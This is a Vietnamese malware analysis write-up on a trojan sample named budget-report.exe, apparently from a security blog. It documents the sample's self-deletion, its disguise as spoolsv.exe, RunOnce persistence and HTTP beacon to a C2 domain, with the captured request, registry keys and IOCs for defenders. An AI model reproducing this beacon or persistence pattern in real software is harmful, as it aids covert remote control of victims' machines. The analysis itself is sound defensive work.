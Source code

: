 ```yaml
---
title: Budget-report.exe
date: 2025-07-25 08:30:00 +0700
categories: [Malware Analysis, Dynamic]
tags: [persistence, c2, trojan, backdoor]
description: Phân tích hành vi runtime của mẫu mã độc budget-report.exe cơ chế persistence, kết nối C2, và đánh giá khả năng là backdoor/beacon trojan.
---
```


## 🎯 Mục tiêu

- Theo dõi hành vi runtime của mẫu `budget-report.exe`
- Xác định mục tiêu, kỹ thuật và đánh giá khả năng gây hại
- Ghi nhận các IOC quan trọng (Indicators of Compromise)

---

## 🧊 1. Phân tích tĩnh

**Tên file**: `budget-report.exe`

**MD5**: `d7cc6c987c68a88defdab3a59070777e`

### 🔹 VirusTotal
![VirusTotal scan](/resources/Budget-report/Pasted image 20251001080419.png)

### 🔹 EXEinfoPE
- 32-bit, GUI, không bị pack

![EXEinfoPE](/resources/Budget-report/Pasted image 20251001073557.png)

### 🔹 PeStudio

#### 📌 Indicators
![PeStudio Indicators](/resources/Budget-report/Pasted image 20251001073819.png)

- Sử dụng thư viện liên quan đến **Internet** và **Sockets**
- Có nhiều hàm import (≈54), khá nhiều so với một GUI đơn giản

#### 📌 Strings
![PeStudio Strings](/resources/Budget-report/Pasted image 20251001074032.png)

- Nhiều chuỗi khả nghi: `GetUserName`, `InternetOpen`, `CreateKey`, tên file `spoolsv.exe`, chuỗi liên quan socket/process/registry...

#### 📌 IAT – Bảng hàm nhập
![IAT view](/resources/Budget-report/Pasted image 20251001074327.png)

- Nhiều API liên quan mạng, registry, process → gợi ý hành vi persistence + network.

---

## ⚙️ 2. Phân tích động

### 🔸 1. Xóa chính nó sau khi chạy

Ngay khi khởi chạy, file gốc `budget-report.exe` bị xóa khỏi ổ đĩa (self-delete).

---

### 🔸 2. Kết nối mạng (Fakenet)

Mẫu gửi HTTP POST về một địa chỉ C2:

```http
POST /uan9Bau3LJ9/ HTTP/1.1
Host: mbaquyahcn.biz:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.2...)

Body:
a=&b=&c=%67%61%78%79%79%76%76%76%73%74%47%71%71%6E%72%6F%6F%66%6C%6C%6A
````


✅ Payload `c=` sau khi decode ra chuỗi có vẻ ngẫu nhiên (`gaxyvvvstGqqnroofllj`) → có thể là ID hệ thống hoặc token định danh.

> Mẫu gửi lại gói này nhiều lần — có thể chờ phản hồi từ máy chủ C2 để nhận lệnh tiếp theo (beacon behaviour).

---

### 🔸 3. Theo dõi registry bằng Regshot

![Regshot diff](/resources/Budget-report/Pasted image 20251001081102.png)

Một số key đáng chú ý:

```reg
HKCU\SOFTWARE\12648430                   → chứa chuỗi hash định danh
HKCU\...\RunOnce\*12648430               → khởi động spoolsv.exe khi máy bật lại
HKCU\...\AppData\Roaming\12648430\spoolsv.exe → file copy chính mã độc
```

📁 **Hành vi chính:**

* Xóa file gốc `budget-report.exe`
* Tạo `spoolsv.exe` tại `AppData\Roaming\12648430` (drop & copy)
* Ghi vào registry `RunOnce` để **tự động khởi động lại sau reboot**

---

### 🔸 4. ProcMon theo dõi chi tiết

![ProcMon timeline](/resources/Budget-report/budget-report.png)

Timeline ProcMon xác nhận chuỗi hành động:

* Đọc user profile
* Tạo thư mục trong AppData
* Copy chính nó thành `spoolsv.exe`
* Ghi registry RunOnce
* Gửi HTTP request ra ngoài (beacon)

---

## 🚨 Kết luận

### ✅ Tóm tắt hành vi

* **Tạo persistence** qua RunOnce → đảm bảo chạy lại sau khởi động
* **Liên lạc với C2**: `mbaquyahcn.biz` trên cổng 80 (POST `/uan9Bau3LJ9/`)
* **Xóa file gốc** và **drop file mới** (`spoolsv.exe`) để khó bị phát hiện

### 🎯 Mục tiêu & Ý nghĩa

| Hành vi            | Mục tiêu                              |
| ------------------ | ------------------------------------- |
| Registry RunOnce   | Giữ sự hiện diện lâu dài              |
| HTTP POST C2       | Báo về máy & chờ chỉ thị từ C2        |
| Xóa file gốc       | Tránh bị phân tích                    |
| Drop `spoolsv.exe` | Ngụy trang dưới tên tiến trình hợp lệ |

### 🔐 Khả năng gây hại

* Khả năng cao là **backdoor đơn giản** / **beacon trojan**
* Gửi định danh ban đầu về C2 để chờ lệnh — hạ tầng đã sẵn sàng cho điều khiển từ xa
* Chưa thấy hành vi rõ ràng về đánh cắp dữ liệu hay phá hoại, nhưng khả năng mở rộng hành vi tồn tại nếu C2 trả lệnh

---

## 📌 IOC (Indicators of Compromise)

| Loại         | Giá trị                                                  |
| ------------ | -------------------------------------------------------- |
| File hash    | `d7cc6c987c68a88defdab3a59070777e`                       |
| C2 domain    | `mbaquyahcn.biz`                                         |
| C2 path      | `/uan9Bau3LJ9/`                                          |
| File drop    | `C:\Users\<user>\AppData\Roaming\12648430\spoolsv.exe`   |
| Registry key | `HKCU\...\RunOnce\*12648430`                             |
| UA giả       | `Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.2;...)` |

---

> 🛡️ **Khuyến nghị:**
>
> * Chặn domain `mbaquyahcn.biz` ở proxy/IDS/Firewall.
> * Quét & cách ly các file có đường dẫn giống `AppData\Roaming\12648430\spoolsv.exe`.
> * Giám sát registry Run/RunOnce cho entry lạ dạng `*12648430`.
> * Nếu phát hiện, thu thập memory dump & network capture để phân tích sâu (để xác định lệnh tiếp theo từ C2).

---
